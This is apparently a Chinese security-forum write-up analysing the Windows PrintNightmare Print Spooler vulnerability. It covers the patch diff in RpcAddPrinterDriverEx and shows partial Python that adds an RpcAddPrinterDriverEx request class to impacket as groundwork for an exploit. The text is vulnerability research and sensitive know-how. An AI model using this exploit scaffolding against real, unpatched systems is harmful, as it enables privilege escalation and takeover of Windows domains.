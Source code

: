 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [bbs.pediy.com](https://bbs.pediy.com/thread-271241.htm)

> [原创] Windows PrintNightmare 漏洞复现分析

漏洞简介
----

Windows Print Spooler 是打印后台处理服务，即管理所有本地和网络打印队列及控制所有打印工作。Windows Print Spooler 存在权限提升漏洞，经过身份认证的攻击者可利用此漏洞使 Spooler 服务加载恶意 DLL，从而获取权限提升。利用此漏洞需身份认证，攻击者可通过多种方式获得身份认证信息。在域环境中合适的条件下，未经身份验证的远程攻击者可利用该漏洞以 SYSTEM 权限在域控制器上执行任意代码，从而获得整个域的控制权。

目标函数定位
------

尽管微软将 PrintNightmare 分配给了 CVE-2021-34527，笔者仍然认为它是 CVE-2021-1675 带来的远程代码执行相关的利用。首先进行补丁对比，比较明显的是 RpcAddPrinterDriverEx 函数，在调用 YAddPrinterDriverEx 函数前会进行判断，如果满足一定条件就对 dwFileCopyFlags 进行 &FFFF7FFF 处理，这样操作是为了取消 dwFileCopyFlags 中指定的 0x8000。

 

![](https://bbs.pediy.com/upload/attach/202201/701197_JWC7FYW7Z56AZPF.png)

 

![](https://bbs.pediy.com/upload/attach/202201/701197_RXEA2Z5EPS72VMW.png)

 

查看文档可知，0x00008000 代表 APD_INSTALL_WARNED_DRIVER，添加打印机驱动程序，即使它在服务器的警告打印机驱动程序列表中。那么下一步就是构造请求使 spooler 程序调用 RpcAddPrinterDriverEx 函数。

 

首先看一下有没有历史 POC，这样稍作修改就可以使用了。很快就找到了 printerbug.py，它是基于 impacket 写的，并且调用了 RpcOpenPrinter。但是看了下，impacket 中并没有实现 RpcAddPrinterDriverEx，于是参照 impacket.dcerpc.v5.rprn 中的格式，为 RpcAddPrinterDriverEx 添加了类，如下所示：

```
# 3.1.4.4.8 RpcAddPrinterDriverEx (Opnum 89)
class RpcAddPrinterDriverEx(NDRCALL):
    opnum = 89
    structure = (
       ('pName', STRING_HANDLE),
       ('pDriverContainer', DRIVER_CONTAINER),
       ('dwFileCopyFlags', DWORD),
    )
 
class RpcAddPrinterDriverExResponse(NDRCALL):
    structure = (
       ('ErrorCode', ULONG),
    )
 
def hRpcAddPrinterDriverEx(dce, pName, DriverContainer, flags, level=2):
    request = RpcAddPrinterDriverEx()
 
    request['pName'] = pName
    request['pDriverContainer'] = DriverContainer
    request['dwFileCopyFlags'] = flags
    dce.request(request)
 
################################################################################
# OPNUMs and their corresponding structures
################################################################################
OPNUMS = {
    0  : (RpcEnumPrinters, RpcEnumPrintersResponse),
    1  : (RpcOpenPrinter, RpcOpenPrinterResponse),
    10 : (RpcEnumPrinterDrivers, RpcEnumPrinterDriversResponse),
    29 : (RpcClosePrinter, RpcClosePrinterResponse),
    65 : (RpcRemoteFindFirstPrinterChangeNotificationEx, RpcRemoteFindFirstPrinterChangeNotificationExResponse),
```